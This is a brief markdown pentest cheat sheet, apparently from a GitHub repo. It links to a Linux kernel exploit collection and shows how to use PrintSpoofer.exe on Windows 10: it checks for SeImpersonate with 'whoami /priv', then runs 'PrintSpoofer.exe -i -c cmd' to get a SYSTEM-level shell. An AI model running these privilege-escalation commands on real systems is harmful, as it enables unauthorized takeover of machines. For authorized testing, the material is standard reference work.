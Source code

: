 # Links

[Linux-Kernel-Exploits](https://github.com/SecWiki/linux-kernel-exploits)

# Windows Privilege Escalation Tools

## PrintSpoofer.exe
- Tested on Windows 10
- Uses NamedPipes and SeImpersonate to gain SYSTEM level priviledges - LPE
```bash
# Check for SeImpersonate
whoami /priv
# Execute LPE
PrintSpoofer.exe -i -c cmd
```
